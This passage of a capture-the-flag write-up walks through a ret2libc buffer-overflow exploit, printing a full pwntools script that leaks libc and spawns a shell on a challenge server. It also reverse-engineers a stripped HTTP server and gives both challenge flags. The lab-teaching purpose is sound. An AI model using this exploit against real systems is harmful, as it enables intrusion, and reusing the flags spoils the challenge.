| **NX Enabled** | Stack cannot execute injected shellcode. | You must reuse existing code (ROP), leaking real memory address              |
| **No PIE**     | Binary code address is predictable.      | The addresses of gadgets and **main** **function** are fixed and predictable |

Disassembled the **vuln** function and revealed the core vulnerability



The function allocates a 64-byte stack buffer, but **fgets** reads up to 128 bytes. This allows us to overflow the stack and control the return address.

### Solution Approach

1. **Calculating the Offset**
   The overflow occurs after:
   • 64 bytes of the buffer
   • 8 bytes for the saved base pointer (rbp)
   So the offset to the return address is 72 bytes.

payload = b'A' \* 72 # Exactly enough to reach the return address

On a 64-bit system, the stack layout looks like this during execution:

| buffer (64 bytes) |
| saved RBP (8 bytes) |
| saved RIP (8 bytes) |

Thus, when we reach and overwrite **RIP (Return Instruction Pointer)**, the program will walk through our crafted ROP chain step by step at runtime, executing our chosen instructions

In later explanation, when the program hits ret:

• **ret** pops the first address **(POP_RDI)** and jumps there.
• **POP_RDI** loads the next stack value **(puts_got)** into **RDI**.
• **ret** pops again, now landing on **puts_plt**, which calls **puts()**.
• After **puts** prints the leaked address, the program uses the next address **(main)** to restart.

This is how the ROP chain flows, the program executes it **step by step** as if you're chaining function calls.

2. **Explanation on leaking an address**
   Focus with ASLR (Address Space Layout Randomization)
   Eventhough we control the ret address, we don’t know where **system()** is located, because every time the program runs, libc is loaded at a different (random) address.

So before calling **system()**, we must:

1. **Leak a real address** like puts from **libc**
2. Calculate the base address of **libc** using:
   libc_base = leaked_puts_address - offset_of_puts
3. Use this **libc_base** to compute the real **system()** and “/bin/sh” address.

Choosing **system(“/bin/sh”)**:
• Gain a shell
• Use it to run command
• Retrieve a flag

Leaking puts:
• Always present in GOT (Global Offset Table)
• Easy to leak via a ROP chain
• Its offset inside libc is known, so once we leak it, we can compute all other important addresses

3. Building the Leak Payload
   • Leak **puts** real address
   • Calculate **libc_base**
   • Calculate **system()** and **“/bin/sh”**
   • Call **system(“/bin/sh”)** to get a shell

To leak puts, we created a ROP chain

```
payload = b'A' * 72
payload += p64(POP_RDI)         # pop rdi; ret
payload += p64(elf.got['puts']) # Address of puts in GOT
payload += p64(elf.plt['puts']) # Call puts to print its real address
payload += p64(elf.symbols['main'])  # Restart the program
```

4. **Extracting the leaked address**

When the program prints the leaked address, the output contains junk. But the valid memory address always starts at byte 2.

So we extracted as below:

```
leaked_bytes = leak_data[2:8] # Grab 6 bytes
leaked_addr = u64(leaked_bytes.ljust(8, b'\x00')) # Pad to 8
```

Once we had the leaked address, calculate libc_base next:

```
libc_base = leaked_addr - libc.symbols['puts']
```

5. **Build the Final Payload**

Now that we know **libc_base**, we can compute the real addresses:

```
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
```

And craft a second ROP chain to call **system(“/bin/sh”)**:

```
payload = b'A' \* 72
payload += p64(RET) # Stack alignment (16-byte rule)
payload += p64(POP_RDI) # pop rdi; ret
payload += p64(binsh_addr) # Address of "/bin/sh"
payload += p64(system_addr) # Address of system()
```

### Flag Extraction

The final compilation of exploit script:

```python
#!/usr/bin/env python3
from pwn import *

# Set context for the architecture
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'info'  # Set to info for cleaner output

# Target information
ip = '34.133.69.112'
port = 10007

def exploit():
    # Load the binary and libc
    elf = ELF('./chall')
    libc = ELF('./libc.so.6')

    # Get important addresses
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    main_addr = elf.symbols['main']

    # ROP gadgets
    POP_RDI = 0x4012bd  # pop rdi; ret
    RET = 0x4012c3      # ret (for stack alignment)

    # Connect to the target server
    conn = remote(ip, port)

    # Receive the prompt
    conn.recvuntil(b"Enter your input:")

    # ============ Stage 1: Leak libc address ============

    # Buffer overflow offset
    offset = 72  # 64 bytes buffer + 8 bytes saved rbp

    # Build ROP chain to leak puts address
    payload = b'A' * offset
    payload += p64(POP_RDI)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(main_addr)

    # Send payload
    log.info("Stage 1: Sending leak payload")
    conn.sendline(payload)

    # Receive response
    leak_data = conn.recvuntil(b"Enter your input:")

    # Extract leaked address
    leaked_bytes = leak_data[2:8]  # Position 2, size 6
    leaked_addr = u64(leaked_bytes.ljust(8, b'\x00'))
    log.success(f"Leaked puts address: {hex(leaked_addr)}")

    # Calculate libc base
    libc_base = leaked_addr - libc.symbols['puts']
    log.success(f"Libc base address: {hex(libc_base)}")

    # Calculate needed function addresses
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search(b'/bin/sh'))

    log.info(f"System address: {hex(system_addr)}")
    log.info(f"'/bin/sh' address: {hex(binsh_addr)}")

    # ============ Stage 2: Execute system("/bin/sh") ============

    log.info("Stage 2: Sending shell payload")

    payload = b'A' * offset
    payload += p64(RET)        # For stack alignment
    payload += p64(POP_RDI)    # Set RDI (1st argument)
    payload += p64(binsh_addr) # Pointer to "/bin/sh" string
    payload += p64(system_addr) # Call system

    # Send payload
    conn.sendline(payload)

    # Switch to interactive mode
    log.success("Shell obtained! Switching to interactive mode.")
    conn.interactive()

if __name__ == "__main__":
    exploit()

```

Execute the script and we got access to the shell:



Retrieve the flag:



Flag: `umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}`

### Takeaways

• NX makes shellcode injection impossible.
• Modern exploits rely on ROP + libc functions instead.
• Leaking a function address (like puts) is essential to calculate the randomized memory layout (bypassing ASLR).
• Calling system("/bin/sh") is a reliable way to get shell access.
• Once we have the shell, the flag is just one command away.

# Reverse Engineering

## Http-server



### Executive Summary

During analysis of the serever binary, we identified a simple TCP server written in C that processes raw HTTP-like requests. Upon correct request parsing, the server reveals a flag by reading the /flag file.

### Case Details



| Property       | Value                                           |
| -------------- | ----------------------------------------------- |
| Challenge Type | Reverse Engineering                             |
| Target Binary  | ELF 64-bit executable (Linux)                   |
| Architecture   | X86_64                                          |
| Analysis Goal  | Trigger the flag leak logic via crafted request |
| Linkage Type   | Dynamically linked                              |
| Stripped       | ✅                                              |

As the file was stripped, it has all its symbol names removed:
• Function names (main, printf,...)
• Variable names
• Debugging info

### Static Analysis

1. Perform decompilation with ghidra

Note that it was stripped, we should find the main function from the entry function



2. In this **Entry Point:** **FUN_001013a9**



This function is responsible for **setting up the TCP server**, using standard BSD socket operations.

At this point we found a **handler function**, that is,
FUN_0010154b() which invoked for interactions

3. In this **Request Handler: FUN_0010154b**

This function **receives raw data from the client** and determines the response based on the request contents.



Key Logic:
• Use **strstr()** to **search for a specific request string**:
`strstr(pcVar2, "GET /goodshit/umcs_server HTTP/13.37")`
strstr(a, b) searches for the substing b inside the string a.

• If not found (where strstr() returns **NULL**) -> and reply:

```
HTTP/1.1 404 Not Found
Content-Type: text/plain

Not here buddy
```

• If the string is found, the server proceeds to open /flag and send its contents back to the client.

### Flag Extraction

1. Connect to the server using netcat
   nc 34.133.69.112 8080

2. Enter the payload “**GET /goodshit/umcs_server HTTP/13.37**”
   Retrieve the **flag**



Flag: `umcs{http_server_a058712ff1da79c9bbf211907c65a5cd}`

### Takeaways

• As the binary was stripped, we should start our static analysis from the entry symbol
• strstr() function check if the string literals is existed from user input

# UMCS CTF Preliminary Round Scoreboard



